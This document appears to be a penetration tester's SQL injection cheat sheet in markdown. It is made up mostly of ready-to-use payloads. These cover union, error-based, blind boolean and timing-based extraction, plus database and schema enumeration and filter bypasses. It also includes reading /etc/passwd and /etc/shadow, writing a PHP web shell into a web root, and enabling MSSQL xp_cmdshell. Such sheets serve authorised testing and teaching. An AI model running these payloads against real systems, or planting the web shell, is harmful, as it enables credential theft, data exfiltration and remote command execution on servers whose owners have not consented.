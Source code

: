 ```yaml
---
title: SQL Injection
category: Web Application
order: 5
---
```


> **SQL Injection: Test Location and Strings**

**Pull usernames and passwords if successful**

**Test Locations:**
* GET URL query parameters
* POST parameters
* Cookie (session information)
* User-Agent

**Visable Test Strings:**
{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

**Methodology***

1. Determine injection point and how to break out:

{% highlight sql %}

SELECT info From users WHERE id = [UserInput]
SELECT info From users WHERE id = ' [UserInput] '
SELECT info From users WHERE id = " [UserInput] "
SELECT info From users WHERE (type='admin' AND id = [UserInput])

{% endhighlight %}

2. Use test strings like:

{% highlight sql %}

SELECT info From users WHERE id = 1
SELECT info From users WHERE id = -9999
SELECT info From users WHERE id = 1 AND 1=1
SELECT info From users WHERE id = 1 AND 'a'='a
SELECT info From users WHERE id = 1 AND 1=2
{% endhighlight %}

3. Exfiltration:

{% highlight sql %}
MySQL: 0 Union SELECT 'data' LIMIT [offset], [rows]
MSSQL: 0 UNION SELECT TOP [r] 'data' WHERE data_column not in (SELECT TOP [offset] 'data')
{% endhighlight %}

4. Error Based Exfiltration:

{% highlight sql %}
MYSQL: 1 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT '[data]'), FLOOR(RAND(0)*2)) x from users group by x) a)
MSSQL: 1 and 1=convert(int, (SELECT '[data]'))
{% endhighlight %}

4. Boolean Based Exfiltration:

{% highlight sql %}
--Known data
if (((SELECT 'data') = 'password'), 1, 0)

--Binary Search Tree
MySQL: 1 AND ASCII(MID((SELECT 'data'),[c],1))>79
MSSSQL: 1 AND ASCII(SUBSTRING((SELECT 'data'),[c],1))>79

{% endhighlight %}

5. Timing based QUERY:

{% highlight sql %}
MySQL: IF ([condition], SLEEP([s]), 0)
MSSQL: 1 IF ([condition]) WAITFOR DELAY '0:0:[s]'
{% endhighlight %}

6. Side Channel

* Use file /OS operations to write to web root
* Write output to Samba file share

**Blind Test Strings:**

*Try the following to see if it provides valid results for text that was interpreted:*

Commenting out the end | <code> Brent' ;# <br> Dent' ;-- <br> Dent' ;-- - </code>
Commenting with semicolon | <code> Brent' or 29=29; # <br> Dent' or 29=29;-- <br> Dent' or 29=29;-- - </code>
Commenting without semicolon | <code> Brent' or 1=1 # <br> Dent' or 1=1-- <br> Dent' or 1=1-- - </code>
Inline Commenting | <code> Bre'/* */'nt </code>
Concatenation | <code> De''nt <br> De'||'nt </code>
Binary/Boolean | <code> Dent' and 1;# <br> Dent' and 1=1;# <br> Dent' and 0;# <br> Dent' and 1=0;# </code>
Sleep MySQL | <code> Sleep(10) </code>
Sleep MySQL2 | <code> id=1-sleep(10)  </code>
Sleep MySQL3 | <code> and (select Sleep(10) =0) </code>
Sleep MSSQL | <code> WAITFOR DELAY '0:0:10'  MSSQL </code> 

Math | <code> id=1-0 </code>


Determine the level of blindness:
{% highlight sql %}
Dent' AND 1;#
Dent' AND 1=1;#

Dent' AND 0;#
Dent' AND 1=0;#
#Look for differences
{% endhighlight %}

> **Online Tool to test syntax***

* [sqlfiddle](http://sqlfiddle.com/#!9/a6c585/51364)

> **SQL Injection: Database Identification**

MS SQL Server | Incorrect syntax near 'something'
MS SQL Server | <code> 'De'+'nt' </code>
MS SQL Server | <code> SELECT @@version  </code>
MS SQL Server | <code> @@pack_received </code>
MySQL | 'De' 'nt'
MySQL | <code> SELECT @@version  </code>
MySQL | <code> connection_id() </code>
Oracle | ORA-01756: quoted string not properly terminated
Oracle | <code> 'De'||'nt' </code>
Oracle | <code> BITAND(1,1) </code>
PostgreSQL | 5-digit Hex Error Code

> **SQL Injection: Database, Table, and Columns**

**MySQL:**

Database | schema_name FROM information_schema.schemata 
Table | table_name FROM information_schema.tables
Columns | column_name From information_schema.columns where table_name='users'

**SQL Server:**

Database | name FROM sys.databases 
Table | name FROM sys.tables 
Columns | name FROM sys.coumns

**Oracle DB:**

Database | owner FROM all_tables 
Table | table_name FROM all_tables 
Columns | column_name FROM all_tab_columns

> **SQL Injection Filter Bypass**

UTF-16 URL encoding for select and union:
%u0055Nion %u0053elect

Spaces:
union/**/select

Escaping Escapted Quotes (Single and Double):
{% highlight sql %}
313372, pd_description = (select schema_name FROM information_schema.schemata limit 1,1 union select LOAD_FILE(0x002F6574632F736861646F77) INTO outfile QUOTE(test.txt) limit 1,1), pd_description=QUOTE(1)
{% endhighlight %}

> **SQL Injection Union**

1) Once you have identified SQL injection, use order by or UNION select to determine the number of columns:
{% highlight sql %}
dent' and 'a'='a' ORDER BY 1; #
...until it breaks
dent' and 'a'='a' ORDER BY 5; #

Dent' UNION SELECT  NULL; #
..until it works
Dent' UNION SELECT  NULL, NULL, NULL, NULL; #
{% endhighlight %}

2) See which columns (e.g., numbers) are visable and correct data type (e.g., String/varchar) in the output. 
{% highlight sql %}
Dent' UNION SELECT  'X3Y2Z1', NULL, NULL, NULL; #
...until it works and visable in source (search for X3Y2Z1)
Dent' UNION SELECT  NULL, NULL, NULL, 'X3Y2Z1'; #
{% endhighlight %}

3) From the columns identified above, use one for the union. <br> *Note: It requires the same number of columns and compatable data type*
{% highlight sql %}
Dent' UNION SELECT  '1', '2', '3', info FROM information_schema.processlist; #
<br>
or use NULL since it is compatable with everything
<br>
Dent' UNION SELECT NULL, NULL, NULL;--
<b>
jeremy'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts;+--+
{% endhighlight %}

> **Blind SQL Injection Data Exfiltration**

Perform a binary search tree using substr: 

{% highlight sql %}
#Use
substr(([Query]),[Letter],[Word]) > "m"

substr((select table_name from information_schema.tables limit 1),1,1) > "m"
…
= "c"

{% endhighlight %}

> **Stacked Queries**

Allows multiple commands with a ';'  (Mostly MSSQL):
{% highlight sql %}
Dent' ;  CREATE TABLE exfil(data varchar(1000));-- 
{% endhighlight %}


> **Reading and Writing Files**

MySQL and MSSQL:
{% highlight sql %}
MySQL Reading:
Dent'+UNION+SELECT++'1'%2C+'2'%2C+'3'%2C+LOAD_FILE("%2Fetc%2Fpasswd")%3B+%23

MySQL Writing:
INTO OUTFILE 
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

SQL Server Reading: 
BULK INSERT
{% endhighlight %}

> **MSSQL Enable xp_cmdshell**

{% highlight sql %}
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

{% endhighlight %}



> **SQL Injection Cheat Sheets**

* [websec](https://websec.ca/kb/sql_injection)
* [PentestMonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [SQLInjection Wiki](http://www.sqlinjectionwiki.com)


